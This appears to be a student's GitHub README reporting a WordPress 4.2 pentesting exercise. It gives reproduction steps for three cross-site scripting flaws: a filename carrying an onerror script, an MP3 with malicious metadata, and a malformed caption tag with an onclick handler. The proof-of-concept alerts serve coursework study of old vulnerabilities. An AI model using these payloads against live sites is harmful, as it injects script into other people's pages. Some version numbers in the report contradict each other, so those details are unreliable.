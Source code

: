 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Large File Upload Error XSS - Image Files
  - [X] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:
  - [X] GIF Walkthrough:
  ![](xss-file-too-big-audio.gif)
  - [X] Steps to recreate:
  ```
  a. dd if=/dev/zero of='something<img src=a onerror=(alert('pwned'))>.png' count=1024 bs=10000 to create a large file with the script exploit.
  b. Open WordPress > Media > Add new Image
  c. Add the newly created file.
  ```
1. (Required) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [X] Summary:
    - Vulnerability types: XSS, Metadata
    - Tested in version: 4.2.13
    - Fixed in version: 4.2.0
  - [X] GIF Walkthrough:
  ![](xss-mp3-metadata.gif)
  - [X] Steps to recreate:
  ```
  The following MP3 file can be used to reproduce this issue:

  https://www.securify.nl/advisory/SFY20160742/xss.mp3

  1) upload MP3 file to the Media Library (as Editor or Administrator).
  2) Insert an Audio Playlist in a Post containing this MP3 (Create Audio
  Playlist).
  ```
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
1. (Required) Malformed HTML Tags
  - [X] Summary:
    - Vulnerability types: XSS, Embedded Tags
    - Tested in version: 4.2.0
    - Fixed in version: N/A
  - [X] GIF Walkthrough:
  ![](xss-caption-code-exploit.gif)
  - [X] Steps to recreate:
  ```
    1) Create a new post
    2) Add the script on the text of the body: <a href="[caption code"]> </a> <a title=" onclick=alert("hi!")> something</a>
    3) Publish
  ```

## Assets

N/A

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

## Notes

What took the most time out of this experience is setting up the environment. Other than that, the exploits were easy to implement once a blog post has a good overview and a proof of concept of the exploits.

## License

    Copyright [2018] [Excel Espina]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
